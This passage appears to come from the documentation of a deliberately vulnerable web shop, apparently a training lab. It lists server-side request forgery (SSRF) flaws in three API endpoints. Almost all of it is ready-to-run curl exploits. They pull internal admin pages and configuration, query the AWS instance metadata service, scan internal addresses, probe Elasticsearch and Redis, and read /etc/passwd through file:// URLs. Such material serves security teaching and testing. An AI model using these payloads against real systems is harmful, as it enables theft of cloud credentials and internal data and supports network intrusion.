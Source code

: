 **Direct Exploitation:**
```bash
# Access internal admin panel
curl "http://localhost:3000/api/product-image?url=http://localhost:3000/admin/users"

# Access AWS metadata (if on EC2)
curl "http://localhost:3000/api/product-image?url=http://169.254.169.254/latest/meta-data/"

# Scan internal network
curl "http://localhost:3000/api/product-image?url=http://192.168.1.1:80/"
```

---

### 2. URL Preview Feature
**Endpoint:** `POST /api/preview-url`

**Frontend Access:**
1. Navigate to the **ABOUT** page
2. Scroll down to "Preview External Catalog" section
3. Enter target URL
4. Click "Preview"

**Direct Exploitation:**
```bash
# Fetch internal configuration
curl -X POST http://localhost:3000/api/preview-url \
  -H "Content-Type: application/json" \
  -d '{"targetUrl":"http://localhost:3000/internal/config"}'

# Access internal services
curl -X POST http://localhost:3000/api/preview-url \
  -H "Content-Type: application/json" \
  -d '{"targetUrl":"http://localhost:9200/_cat/indices"}' # Elasticsearch

# Read local files (some configurations)
curl -X POST http://localhost:3000/api/preview-url \
  -H "Content-Type: application/json" \
  -d '{"targetUrl":"file:///etc/passwd"}'
```

---

### 3. Product Import
**Endpoint:** `POST /api/import-product`

**Direct Exploitation Only:**
```bash
# Import from internal endpoint
curl -X POST http://localhost:3000/api/import-product \
  -H "Content-Type: application/json" \
  -d '{"catalogUrl":"http://localhost:3000/admin/users"}'

# Access Redis (if running)
curl -X POST http://localhost:3000/api/import-product \
  -H "Content-Type: application/json" \
  -d '{"catalogUrl":"http://localhost:6379/"}'
```

---